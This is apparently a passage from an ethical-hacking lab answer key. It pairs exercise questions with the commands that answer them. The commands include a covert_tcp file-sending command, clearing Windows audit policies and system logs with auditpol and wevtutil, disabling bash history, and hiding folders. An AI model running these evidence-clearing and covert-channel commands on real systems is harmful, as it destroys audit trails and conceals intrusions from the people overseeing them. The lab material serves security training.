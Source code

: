 #### Sender Side

```
./covert_tcp -dest <Receiver IP> -source <Sender IP> -source_port <Sender Port> -dest-port <Receiver Port> -server -file /home/attacker/Desktop/Send/message.txt
```





## Clear Logs and Hide Evidence

### View, Enable, and Clear Audit Policies

#### Auditpol

On the Windows 11 machine, use Auditpol to enable or disable security auditing on local or remote systems and to adjust the audit criteria for different categories of security events. Which command is used to clear the audit policies?

```
auditpol /clear /y
```



### Clear Windows Machine Logs

In the Windows 11 machine, use various Windows utilities such as Clear\_Event\_Viewer\_Logs.bat, wevtutil, and Cipher to clear system logs. Which wevtutil command will clear all system logs (enter the complete command as the answer)?

```
wevtutil cl system
```



### Clear Linux Machine Logs

In the Parrot Security machine, clear the Linux machine event logs using the Bash shell. Which command will disable the Bash shell from saving the history?

```
export HISTSIZE=0
```



### Hiding Artifacts in Windows and Linux

Use various commands to hide file in Windows and Linux machines. Enter the name of the user that is added in Windows 11 machine in this task.

Test

#### Hide Folder

```
attrib +h +s +r Test
```

